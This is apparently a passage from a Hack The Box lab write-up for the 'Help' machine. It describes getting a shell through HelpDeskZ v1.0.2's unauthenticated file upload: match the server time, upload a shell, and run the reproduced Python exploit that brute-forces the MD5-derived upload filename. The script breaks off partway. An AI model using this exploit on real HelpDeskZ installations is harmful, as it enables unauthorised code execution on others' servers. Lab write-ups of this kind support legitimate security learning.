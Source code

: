 1. Modify the Python script to GET the server time and incorporate it into the file name (as Ippsec does in his video)
2. Sync your local box with the server time
3. Scramble and add the server time as the value of the variable in the Python script, upload the shell, quickly run the script, and pray

<br>
#2 was not working out for me, even though I was careful to line up my time super duper closely to the server time. So I had to resort to #3 and do all of the following steps in like a millisecond:

1) Send a GET request to http://10.10.10.121/support and view the headers in Burp.

![](/images/help/image6.png)

2) Convert the time to Epoch time.

![](/images/help/image7.png)

3) Upload my shell.

4) Modify the script to use that Epoch time.

{% highlight python %}

import hashlib
import time
import sys
import requests
 
print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'
 
if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)
 
helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

#currentTime = int(time.time()) <-- Original line; local time
currentTime = 1569204120 # <-- New line

for x in range(-60, 1000):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()
 
    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url